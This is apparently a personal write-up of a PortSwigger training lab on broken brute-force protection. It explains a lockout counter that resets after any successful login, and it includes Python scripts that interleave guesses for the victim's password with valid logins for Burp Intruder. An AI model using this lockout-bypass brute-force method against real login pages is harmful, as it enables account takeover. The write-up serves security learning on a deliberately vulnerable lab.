

# Broken brute-force protection, IP block

**Category:** Web Exploitation — Authentication
**Difficulty:** Practitioner
**Progress:** Solved

---

## Description

**Lab URL:** `https://portswigger.net/web-security/authentication/password-based/lab-broken-bruteforce-protection-ip-block`


This lab is vulnerable due to a logic flaw in its password brute-force protection. To solve the lab, brute-force the victim's password, then log in and access their account page.

- Your credentials: wiener:peter
- Victim's username: carlos
- Candidate passwords

Hint:
Advanced users may want to solve this lab by using a macro or the Turbo Intruder extension. However, it is possible to solve the lab without using these advanced features.

---

## Reconnaissance

- What does the application do? 
    - The website is a blog about several, seemingly to tech related topics. Users can read and leave comments under blog articles.
- Where is user input accepted? (forms, URL parameters, headers, cookies)
    - There is an account page with a login, the comments below articles can be consideres input too.
- What happens with normal input?
    - Correct user logins log the user in normally

---

## Analysis


#### Vulnerability

- What exactly is vulnerable and why?
    
As per the lab instructions the victims' password is vulnerable to bruteforcing due to a flaw in the brute-force protection logic.
---

## Solution 

### Step 1 - Recon / Looking at responses

The usual login with the given 'wiener'/'peter' pair works as exepected.  302 HTTP.
Trying to login with 'carlos'/'peter' returns 200 but notifies the user that the password is incorrect. 
After a couple of tries(3) the site locks us out from retrying for one 1 minute
The trick of using `X-Forwarded-For` does not work here.
The trick here is to try two logins as 'carlos' and then login with the correct pair of 'wiener'/'peter' once, so the counter is reset. The brute-force-blocker just counts attempts since last successful login and is thus vulnerable.

---

### Step 2 - Enumeration / Step 3 - Exploit

I created a python file to use for burp intruder. By hand it was verifiable that every third try has to be 'wiener'/'peter' so a quick script based on the candidate usernames and passwords with that pair inserted at the right positons should work.
```python
list_string = """[PLACEHOLDER FOR WRITEUP]"""
usernames = """carlos\n"""*100   ## creates the carlos username string

## split both strings into dictonaries
splitted = list_string.split()                  
splitted_users = usernames.split()

## go through the dictionaries and insert peter / wiener after every 2 entries
for i in range(len(splitted)+50):
    if (i+1)%3 == 0:
        splitted.insert(i, 'peter')
        splitted_users.insert(i,'wiener')


## transform back to original format for easy copy and baste into intruder
final_users = "\n".join(splitted_users)
final_password = "\n".join(splitted)

## simple print
print(final_users)
print('\n\n\n\n------------------------\n\n\n\n\n')
print(final_password)
```
And there it is:


I knew there is a more elegant solution, so I asked claude and it told me to use slices and comprehensions, half an eternity later I got it:

```python
password_chunks = [splitted[i:i+2:1] + ['peter'] for i in range(0,len(splitted), 2)]

password_list = [   ## think of this: for sentence in text for word in sentence and place element in the last for (like an append)
    element
    for sublist in password_chunks
        for element in sublist
]


user_chunks = [splitted_users[i:i+2:1] + ['wiener'] for i in range(0,len(splitted_users), 2)]

username_list = [   ## think of this: for sentence in text for word in sentence and place element in the last for (like an append)
    element
    for sublist in user_chunks
        for element in sublist
]

final_users = "\n".join(username_list)
final_password = "\n".join(password_list)

## simple print
print(final_users)
print('\n\n\n\n------------------------\n\n\n\n\n')
print(final_password)

```
This code (used on the same splitted lists) does the same without all that math and modifying the list iterated over (which also is quadratic runtime complexity).

Oh and of course to solve the labe, one has to use the password to login as 'carlos'


---
## Real World Impact

This might be even worse from a business standpoint than the last lab. This one has some defense mechanism which gives a false sense of security because of its faulty implementation. In a security review this may go unnoticed and be ticked off as sufficient even - keeping the door open to attackers. 


---
## Learnings

- when inserting into a basic copy of a list it still uses the original list cause it is the same for python
- when inserting at every third index, the whole thing needs to grow by 50% not by 33%. Easy to remember: inserting every `n` indexes in a list that is `N` long means we need to step through `N+ceiling(N/(n-1))` indexes